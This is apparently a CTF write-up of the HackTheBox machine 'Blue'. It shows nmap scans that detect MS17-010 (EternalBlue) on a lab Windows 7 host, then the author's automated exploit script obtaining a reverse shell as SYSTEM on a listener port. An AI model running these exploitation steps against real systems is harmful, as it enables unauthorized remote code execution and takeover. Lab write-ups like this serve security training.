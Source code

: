 ```yaml
---
title: Hackthebox - Blue
description: writeup of the HTB machine Blue, exploiting eternal blue.
author: rxffsec
date: 2024-08-20 06:25:00 -0600
categories:
  - CTF
  - HTB
tags:
  - writeup
  - eternal_blue
  - eccptv2
  - hackthebox
image:
  path: /assets/img/htb/blue/blue.png
---
```

## Enumeration

Start with an nmap scan that will output every open port in grep format to the archive allPorts
```bash
$ sudo nmap -sS -p- --open -n -Pn --min-rate=5000 10.10.10.40 -vvv -oG allPorts
```

After doing that I use a function named xps to extract the ports and run a command that will enumerate all the versions and scripts of each port 

```bash
$ xps allPorts
[+] command copied to clipboard, run:
sudo nmap -sVC -p135,139,445,49152,49153,49154,49155,49156,49157 --min-rate=5000 -n -Pn 10.10.10.40 -oN targeted
```

I modified the output to only scan those related to smb and enumerate the scripts with "vuln and safe" categories

```bash
$ sudo nmap -sVC --script="vuln and safe" -p135,139,445 --min-rate=5000 -n -Pn 10.10.10.40 -oN targeted
```

The scan shows that the machine is vulnerable to eternal-blue ms17-010

```java
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

## shell as nt authority/system
To exploit this vulnerability I use a bash script I made that will automate all the process [bluepwn-ms17-010](https://github.com/rxffsec/bluepwn-ms17-010)

```bash
$ git clone https://github.com/rxffsec/bluepwn-ms17-010
$ cd bluepwn-ms17-010
$ ./bluepwn.sh
```

the process is the following first I retrieve the information of the target with the objective to know its architecture, in this case I have a x64 windows 7 machine  

```java
Choose an option
[1] Get Target information
[2] Run exploit
[0] Exit
[>] 1
[?] IP of the target: 10.10.10.40
SMB         10.10.10.40     445    HARIS-PC         [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:HARIS-PC) (domain:haris-PC) (signing:False) (SMBv1:True)
[?] Would you like to go back?
[Y/n] y
```

Then I run the exploit setting up the correct parameters such as ip address port and architecture

```java
Choose an option
[1] Get Target information
[2] Run exploit
[0] Exit
[>] 2
[?] Target IP: 10.10.10.40
[?] Your IP: 10.10.14.13
[?] Your Port: 9001
[?] Architecture of the host
	[1] x86
	[2] x64
[>] 2
```

The tool automatically retries the exploit in order to make it work, finally after some retries it spawns a shell as nt authority\system

```bash
[!] Retrying...
If the issue persists is probably that the target machine got rebooted
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

